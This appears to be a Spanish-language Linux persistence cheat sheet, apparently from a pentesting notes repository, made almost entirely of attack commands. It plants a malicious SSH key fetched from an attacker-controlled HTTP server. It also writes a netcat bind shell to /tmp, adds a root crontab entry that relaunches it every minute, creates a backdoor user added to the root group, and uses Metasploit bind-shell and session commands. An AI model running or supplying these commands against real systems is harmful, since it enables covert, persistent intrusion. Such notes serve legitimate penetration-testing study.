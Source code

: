 # Linux

# Tabla de Contenido

---

# Malicious SSH Key [ *con credenciales* ]

---

## Generación de par de claves

```bash
**ssh-keygen** -t rsa -b 4096

*# En caso de que se solicite una contraseña tenemos la opción de dejarlo en blanco*
```

## Tranferencia de la clave pública al usuario comprometido

```bash
**ssh-copy-id** *<victim-user>***@***<target-ip-or-hostname>

# Se solicitará la contraseña del usuario*
```

## Conexión con SSH

```bash
**ssh** *<victim-user>***@***<target-ip-or-hostname>*
```

# Malicious SSH Key [ *sin credenciales* ]

---

## Generación de par de claves

```bash
**ssh-keygen** -t rsa -b 4096

*# En caso de que se solicite una contraseña tenemos la opción de dejarlo en blanco*
```

## Inicialización de servidor Python

```bash
**cd** ~/.ssh/
**
**python3** -m http.server 80

*# Alternativa con Python2.7*
**python2** -m SimpleHTTPServer 80
```

## Descargar archivo [ *máquina atacante* ]

```bash
**wget** http://*<attacker-ip>/id_rsa.pub*

**cat** *id_rsa.pub >> .ssh/authorized_keys*
```

# Malicious Crontab

---

## Creación de bindshell

```bash
**echo** 'nc -lkvnp 4443 -e /bin/bash >/dev/null &' > /tmp/bindshell
```

## Creación de crontab maliciosa

```bash
**echo '*** * * * * /tmp/bindshell' | sudo tee -a /var/spool/cron/crontabs/root
```

# New User

---

## Creación de nuevo usuario

```bash
**adduser** -m ****user -s /bin/bash **ftp**
```

## Cambio de contraseña

```bash
**passwd** ftp
```

## Agregar el usuario a grupo root

```bash
**usermod** -aG root **ftp**
```

# Extra

---

## Obteniendo conexión con Bindshell

```bash
**use** payload/generic/shell_bind_tcp

**set** RHOST <target-ip>

**set** LPORT <local-port>

**exploit**
```

## Obteniendo conexión con Bindshell

```bash
*# CTRL + Z o escribe 'background' para poner la sesión previamente obtenida en segundo plano*

**sessions** -l
**
**sessions** -u <session-id>

**sessions** <session-id>
```